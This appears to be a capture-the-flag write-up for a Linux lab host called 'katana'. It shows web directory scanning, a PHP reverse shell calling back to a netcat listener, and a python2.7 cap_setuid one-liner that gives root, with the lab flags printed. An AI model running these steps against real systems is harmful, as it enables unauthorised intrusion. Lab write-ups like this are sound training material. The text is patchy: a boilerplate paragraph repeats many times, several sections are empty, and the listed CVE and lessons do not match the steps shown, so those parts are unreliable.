

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Web application and exposed network services |
| Primary Entry Vector      | Web RCE (CVE-2023-43740) |
| Privilege Escalation Path | Local enumeration -> misconfiguration abuse -> root |

## Credentials

No credentials obtained.

## Reconnaissance

---
💡 Why this works  
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

## Initial Foothold

---
http://192.168.126.83:8715

*Caption: Screenshot captured during this stage of the assessment.*


*Caption: Screenshot captured during this stage of the assessment.*

http://192.168.126.83/ebook/admin.php

*Caption: Screenshot captured during this stage of the assessment.*

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip:8088
```

```bash
✅[10:06][CPU:6][MEM:23][TUN0:192.168.45.202][/home/n0z0]
🐉 > feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip:8088

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.12.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.126.83:8088
 🚫  Don't Scan Regex      │ /(css|fonts?|images?|img)/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 301, 302, 401, 403]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.12.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       23l       73w      655c http://192.168.126.83:8088/
200      GET       35l      202w     1800c http://192.168.126.83:8088/upload.php
200      GET      198l      531w     6480c http://192.168.126.83:8088/upload.html

```


*Caption: Screenshot captured during this stage of the assessment.*

`http://192.168.126.83:8715/katana_rev.php`
Reverse shell callback succeeded:
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
rlwrap -cAri nc -lvnp 80
```

```bash
❌[2:15][CPU:3][MEM:56][TUN0:192.168.45.202][/home/n0z0]
🐉 > rlwrap -cAri nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.202] from (UNKNOWN) [192.168.126.83] 52760
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 12:17:09 up 21:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Retrieved local.txt:
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
cat /var/www/local.txt
```

```bash
www-data@katana:/$ cat /var/www/local.txt

86d1dff1c3e1f15549c4753475310614

```

💡 Why this works  
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
Files with capabilities (limited to 50):
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
ls -la /usr/bin/python2.7
```

```bash
root@katana:/tmp# ls -la /usr/bin/python2.7
-rwxr-xr-x 1 root root 3689352 Oct 10  2019 /usr/bin/python2.7
root@katana:/tmp#
```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
```

```bash
www-data@katana:/tmp$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@katana:/tmp# id
```

Retrieved proof.txt:
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
cat /root/proof.txt
```

```bash
root@katana:/tmp# cat /root/proof.txt
6374a5da812c460ebfd7c3dc4ae24cd8

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

No additional logs saved.

💡 Why this works  
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Validate framework debug mode and error exposure in production-like environments.
- Restrict file permissions on scripts and binaries executed by privileged users or schedulers.
- Harden sudo policies to avoid wildcard command expansion and scriptable privileged tools.
- Treat exposed credentials and environment files as critical secrets.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- CVE-2023-43740: https://nvd.nist.gov/vuln/detail/CVE-2023-43740
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
